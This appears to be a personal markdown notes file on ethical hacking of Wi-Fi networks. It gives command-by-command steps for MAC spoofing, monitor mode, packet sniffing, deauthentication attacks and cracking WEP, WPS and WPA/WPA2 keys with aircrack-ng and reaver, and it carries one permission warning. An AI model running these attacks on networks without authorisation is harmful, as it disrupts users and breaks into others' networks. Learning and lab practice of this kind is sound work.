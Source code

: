 # Ethical Hacking Notes
___

## The Rules

- [x] Don't be a ass.
- [x] Have Fun.
- [ ] Learn Something New.
___

### Changing your device's MAC Address

- First, ensure device is visible with `ifconfig` or `iwconfig`

- Next, take device down with `ifconfig <device name> down`
 
- Next, change the MAC Address with `ifconfig <device name> hw ether <MAC Address>` where MAC Address follow format 00:00:00:00:00:00

- Lastly, bring the device back online with `ifconfig <device name> up`
___

### Change Wirless Adapter to Utilize Monitor Mode

- First, ensure device is visible and not in monitor mode with `iwconfig`

- Next, bring down the device with `ifconfig <device name> down`

- Next, kill off processes that might interfere with aircrack-ng suit by running `airmon-ng check kill`

- Next, update monitor mode by running `iwconfig <device name> mode monitor`

- Lastly, bring the device back online with `ifconfig <device name> up`
___

### Packet Sniffing Using Airodump-ng

- To start packet sniffing, run `airodump-ng <device name>` where device name is your wireless adapter in monitor mode

- To specify the band frequency, utilize the `--band` argument

   `airodump-ng --band abg <device name>` will capture packets over 2.4 and 5 Ghz simultaniously

- In order to sniff packets on a specific network utilize the below command

   `airodump-ng --bssid <router MAC Address> --channel <channel number> --write <write file> <device name>`

___

### Deauthentication Attack with aireplay-ng

- To disconnect any device from any router utilize the command:

   `aireplay-ng --deauth <# of packets> -a <Router MAC> -c <Client MAC> <device name>`

:+1:**DO NOT DO THIS TO A NETWORK OR DEVICE YOU DO NOT OWN OR HAVE PERMISSION TO...**:+1:

___

### Cracking  and Connecting to a WEP Wifi Network

##### High Volume WEP Wifi Network Cracking
- In order to crack a WEP, we need a large ammount of packets from a high volume network.

- Run aircrack-ng with the .cap file to crack the key

   `aircrack-ng <name of .cap file>` 

##### Low Volume WEP Wifi Network Cracking
- Utilize airodump-ng to sniff packets on the victum network as seen above.

- To associate your device to the network utilize aireplay-ng by running the command

   `aireplay-ng --fakeauth 0 -a <Router MAC> -h <Your Device unspec> <device name>` 

- Run an ARP Attack on the network by running the command
   `aireplay-ng --arpreplay -b <Router MAC> -h <Your Device unspec> <device name>`

- Run aircrackpng with the .cap file similar to above to crack the key
___

### Exploiting WPS Feature for WPA/WPA2 Wifi Network

- First, run reaver WPS cracker utilzing the command 

   `reaver --bssid <Network MAC> --channel <channel #> --interface <device name> -vvv --no-associate`

- next, associate your device to the network utilizing above command

___

### Capturing a WPA/WPA2 Handshake

- First, start packet sniffing a specific network utilizing the command
   `airodump-ng --bssid <router MAC Address> --channel <channel number> --write <write file> <device name>`

- Next, run a deauthentication attack on a particular device utilizing the command
   `aireplay-ng --deauth <# of packets> -a <Router MAC> -c <Client MAC> <device name>`

___

### Cracking a WPA/WPA2 handshake with a wordlist Attack

- First, utilize the above section to capture a handshake.

- Next, ensure you have a large word list, github has large common password files

- Lastly, we need to utilize aircrack-ng to try and crack the handshake against the password file
   `aircrack-ng <handshake capture file .cap> -w <password txt file>`
